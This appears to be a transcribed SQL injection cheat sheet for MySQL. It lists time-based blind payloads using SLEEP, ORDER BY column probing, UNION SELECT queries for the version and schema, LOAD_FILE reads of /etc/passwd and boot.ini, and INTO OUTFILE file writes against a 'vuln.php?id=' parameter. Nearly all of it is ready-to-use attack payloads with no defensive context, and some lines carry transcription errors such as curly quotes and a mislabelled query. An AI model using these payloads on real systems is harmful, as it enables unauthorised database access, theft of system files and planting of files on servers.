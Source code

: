 - Ask if the first character of the user is 'a':
````
and if(substring (user(),1,1)=’a’,SLEEP(5),1)--”
````
- Check if the admin table exists:
````
and IF(SUBSTRING ((select 1 from admin limit 0,1),1,1)=1,SLEEP(5),1)
````
- Finding number of columns using ORDER BY
- We can use order by to sort the result by a given column number, if the column does not exist, we will get an error:
````
vuln.php?id=1 order by 9 # This throws no error
vuln.php?id=1 order by 10 # This throws error
````
- MySql UNION code execution
- Joins the result of two queries
- Two queries should return the same # of columns.
- Data-types in columns of the select must be of the same orcompatible type.
- Once you have the right number of columns (i.e. 3) you can find the mysql version:
````
UNION SELECT @@version,NULL, NULL#'
````
- mysql users:
````
UNION SELECT table_schema,NULL,NULL FROM information_schema.columns#'
````
- If the result displays garbage from the first query, you can add a false condition to only show the union result AND 1=0 UNION...
- Read files
````
AND 1=0 UNION SELECT LOAD_FILE('C:\\boot.ini'),NULL,NULL #'
````
- Write files
````
AND 1=0 UNION SELECT 'bad content',NULL,NULL INTO OUTFILE 'C:\\random_file.txt' #'
````
- Other payloads:
````
-1 union all select @@version --
1 union SELECT user FROM mysql.user
1 union select 'foo' into outfile '/tmp/foo'
1 union select load_file('/etc/passwd')
````













